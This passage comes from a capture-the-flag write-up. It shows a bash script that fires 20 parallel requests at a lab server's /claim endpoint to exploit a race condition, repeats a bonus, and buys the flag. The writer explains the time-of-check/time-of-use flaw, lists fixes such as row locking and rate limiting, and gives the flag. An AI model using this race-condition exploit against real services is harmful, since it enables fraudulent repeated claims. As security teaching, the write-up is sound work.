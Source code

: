 ```bash
seq 1 20 | xargs \-P20 \-I{} curl \-s \-b "$COOKIE\_FILE" \-X POST "$BASE\_URL/claim" \> /dev/null

echo "\[\*\] Waiting for DB writes to finish..."  
sleep 2

echo "\[\*\] Checking balance..."  
BALANCE=$(curl \-s \-b "$COOKIE\_FILE" "$BASE\_URL/dashboard" | grep \-oP '\\d{4,}')  
echo "\[\*\] Current balance: $BALANCE"

echo "\[\*\] Attempting to redeem flag..."  
RESPONSE=$(curl \-s \-b "$COOKIE\_FILE" \-X POST "$BASE\_URL/buy\_flag")

\# Detect UMCS-style flags  
if echo "$RESPONSE" | grep \-iq "UMCS"; then  
    echo "Flag found\!"  
    echo "$RESPONSE" | grep \-oE 'UMCS\\{.\*?\\}'  
else  
    echo "Flag not found. Current balance insufficient."  
fi
```

Upon running through the bash script flag was found. So basically, the vulnerability over this challenge lacks concurrency control as multiple requests simultaneously sent to /claim. Each request checks if the user already claimed a bonus but before the server can update the state "use", other requests enter in,making receiving more bonus than intended. I came to understand that this is a TOCTOU vulnerability which is a time of check and time of use vulnerability. To prevent this kind of vulnerability,lock the database row or use transactions to avoid simultaneous writes,track requests per session and apply strict rate limiting,implement server-side timestamp checks for bonus claims

**Flag: umcs{th3\_s0lut10n\_1s\_pr3tty\_str41ghtf0rw4rd\_too\!}**

## **Cryptography: Gist of Samuel**

![](image12.png)

